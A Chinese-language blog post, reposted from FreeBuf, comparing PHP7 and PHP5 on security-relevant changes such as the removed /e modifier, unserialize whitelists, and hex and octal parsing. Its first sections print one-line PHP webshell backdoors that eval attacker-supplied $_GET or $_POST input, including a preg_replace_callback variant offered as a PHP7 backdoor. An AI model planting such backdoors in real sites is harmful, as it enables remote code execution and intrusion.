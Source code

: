 ```yaml
---
layout: post
title: "[PHP] PHP7 和 PHP5 在安全上的區別"
date: 2019-03-18 00:00:02 +0800
categories: [security, php]
tags: [security, php]
---
```



### **PHP7 和 PHP5 在安全上的區別**

### **函數修改**
### **preg_replace()不再支持/e修飾符**
```php
<?php
preg_replace("/.*/e",$_GET["h"],".");
?>
```

利用`\e`修飾符執行程式碼的後門大家也用了不少了，具體看官方的這段[描述](http://php.net/manual/zh/reference.pcre.pattern.modifiers.php):

>如果設置了這個被棄用的修飾符， preg_replace() 在進行了對替換字符串的後向引用替換之後,
>將替換後的字符串作為php 程式碼評估執行(eval 函數方式)，並使用執行結果作為實際參與替換的字符串。
>單引號、雙引號、反斜線()和 NULL 字符在 後向引用替換時會被用反斜線轉義.

很不幸，在PHP7以上版本不在支持`\e`修飾符，同時官方給了我們一個新的函數`preg_replace_callback`：

這裡我們稍微改動一下就可以利用它當我們的後門：

![1](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/1.png)

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
```

---
### **create_function()被廢棄**
```php
<?php
$func =create_function('',$_POST['cmd']);$func();
?>
```

少了一種可以利用當後門的函數，實際上它是通過執行`eval`實現的。可有可無。


---

### **mysql_*系列全員移除**

如果你要在PHP7上面用老版本的mysql_*系列函數需要你自己去額外裝了，官方不在自帶，現在官方推薦的是mysqli或者pdo_mysql。


---

### **unserialize()增加一個可選白名單參數**


```php
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

如果反序列數據裡面的類名不在這個白名單內，就會報錯。

![2](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/2.png)

可以是類名也可以是布爾數據，如果是`FALSE`就會將所有的對像都轉換為`__PHP_Incomplete_Class`對象。 `TRUE`是無限制。也可以傳入類名實現白名單。

---

### **assert()默認不在可以執行程式碼**

---

### **語法修改**
foreach不再改變內部陣列指針


```php
<?php
$a = array('1','2','3');
foreach ($a as $k=>&$n){
    echo "";
}
print_r($a);
foreach ($a as $k=>$n){
    echo "";

}
print_r($a);
```

這樣的程式碼在php5中，是這樣的執行結果

![3](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/3.png)

因為陣列最後一個元素的 $value 引用在 foreach 循環之後仍會保留，在第二個循環的時候實際上是對之前的指針不斷的賦值。
<br>
php7中通過值遍歷時，操作的值為陣列的副本，不在對後續操作進行影響。


### **8進製字符容錯率降低**

在php5版本，如果一個八進製字符如果含有無效數字，該無效數字將被靜默刪節。

```php
<?php
echo octdec( '012999999999999' ) . "\n";
echo octdec( '012' ) . "\n";
if (octdec( '012999999999999' )==octdec( '012' )){
        echo ": )". "\n";
}
```

比如這樣的程式碼在php5中的執行結果如下：

![4](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/4.png)

但是在php7裡面會觸發一個解析錯誤。

>這個問題同樣在PHP7.0.0以後的版本又被改回去了，只影響這一個版本。

---

### **十六進製字符串不再被認為是數字**

```php
<?php
var_dump("0x123" == "291");
var_dump(is_numeric("0x123"));
var_dump("0xe" + "0x1");
var_dump(substr("foo", "0x1"));
?>
```


以上程式碼在PHP5運行結果如下：
![5](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/5.png)


PHP7運行結果如下：

![6](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/6.png)


### **移除了 ASP 和 script PHP 標籤**


![7](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/7.png)

現在只有`<?php ?>`這樣的標籤能在php7上運行了。


### **超大浮點數類型轉換截斷**
將浮點數轉換為整數的時候，如果浮點數值太大，導致無法以整數表達的情況下， 在PHP5的版本中，轉換會直接將整數截斷，並不會引發錯誤。在PHP7中，會報錯。


### **雜項**

>`exec()`, `system()` `passthru()`函數對 NULL 增加了保護.
>
>`list()`不再能解開字符串`string`變數
>
>`$HTTP_RAW_POST_DATA` 被移除
>
>`__autoload()` 方法被廢棄
>
>`parse_str()` 不加第二個參數會直接把字符串導入當前的符號表，如果加了就會轉換稱一個陣列。現在是第二個參數是強行選項了。
>
>統一不同平台下的整型長度
>
>`session_start()` 可以加入一個陣列覆蓋php.ini的配置


### **引用**
> [http://php.net/](http://php.net/)

### **文章來源:**
[https://www.freebuf.com/articles/web/197013.html](https://www.freebuf.com/articles/web/197013.html)
